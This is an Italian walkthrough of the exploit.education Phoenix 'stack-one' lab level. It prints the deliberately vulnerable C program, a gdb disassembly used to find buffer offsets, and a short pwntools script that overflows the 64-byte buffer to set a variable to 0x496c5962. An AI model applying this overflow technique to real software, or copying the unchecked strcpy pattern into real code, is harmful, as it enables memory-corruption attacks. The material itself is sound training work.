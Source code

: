 ### Descrizione del Codice

Il programma `stack_one.c` presenta una vulnerabilità di overflow del buffer che può essere sfruttata per sovrascrivere variabili in memoria.

### Funzionamento del Programma

1. Il programma legge un input dall'utente e lo memorizza in `buffer` utilizzando la funzione `strcpy`.
2. La funzione `strcpy` non controlla la lunghezza dell'input, il che può causare un overflow del buffer.
3. La funzione `main` verifica se la variabile `changeme` è stata impostata al valore specifico `0x496c5962`.

### Problema di Sicurezza

Il problema di sicurezza risiede nell'uso della funzione `strcpy` senza controllare la lunghezza dell'input, il che può causare un overflow del buffer. Questo può essere sfruttato per sovrascrivere la variabile `changeme` con un valore specifico.

### Exploit

L'exploit sfrutta l'overflow del buffer per sovrascrivere la variabile `changeme` con il valore `0x496c5962`.

### Esempio di Exploit

Il seguente esempio mostra come sfruttare la vulnerabilità:

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  if (argc < 2) {
    errx(1, "specify an argument, to be copied into the \"buffer\"");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }

  exit(0);
}

Questo codice utilizza la funzione strcpy, che è pericolosa perché la dimensione della sorgente potrebbe essere maggiore della dimensione della destinazione.

L'unica differenza rispetto al livello precedente è che richiede che changeme sia impostato a un valore specifico 0x496c5962.

Ora possiamo usare gdb:
$ gdb -q /opt/phoenix/amd64/stack-one
Reading symbols from stack-one...(no debugging symbols found)...done.

gef➤  disassemble main 
Dump of assembler code for function main:
   0x000000000040066d <+0>:	push   rbp
   0x000000000040066e <+1>:	mov    rbp,rsp
   0x0000000000400671 <+4>:	sub    rsp,0x60
   0x0000000000400675 <+8>:	mov    DWORD PTR [rbp-0x54],edi
   0x0000000000400678 <+11>:	mov    QWORD PTR [rbp-0x60],rsi
   0x000000000040067c <+15>:	mov    edi,0x400750
   0x0000000000400681 <+20>:	call   0x4004c0 <puts@plt>
   0x0000000000400686 <+25>:	cmp    DWORD PTR [rbp-0x54],0x1
   0x000000000040068a <+29>:	jg     0x4006a0 <main+51>
   0x000000000040068c <+31>:	mov    esi,0x4007a0
   0x0000000000400691 <+36>:	mov    edi,0x1
   0x0000000000400696 <+41>:	mov    eax,0x0
   0x000000000040069b <+46>:	call   0x4004d0 <errx@plt>
   0x00000000004006a0 <+51>:	mov    DWORD PTR [rbp-0x10],0x0
   0x00000000004006a7 <+58>:	mov    rax,QWORD PTR [rbp-0x60]
   0x00000000004006ab <+62>:	add    rax,0x8
   0x00000000004006af <+66>:	mov    rdx,QWORD PTR [rax]
   0x00000000004006b2 <+69>:	lea    rax,[rbp-0x50]
   0x00000000004006b6 <+73>:	mov    rsi,rdx
   0x00000000004006b9 <+76>:	mov    rdi,rax
   0x00000000004006bc <+79>:	call   0x4004a0 <strcpy@plt>
   .....

Possiamo vedere che buffer è a rbp-0x50 (main+69) e changeme è a rbp-0x10 (main+51), quindi abbiamo bisogno di 64 caratteri per riempire questo spazio, poi possiamo sovrascrivere il valore di changeme.

Soluzione:
# solve.py

from pwn import *

buff = ""
buff += 'A'*64
buff += p64(0x496c5962)

print(buff)

Esesguiamo:
$ /opt/phoenix/amd64/stack-one $(python solve.py)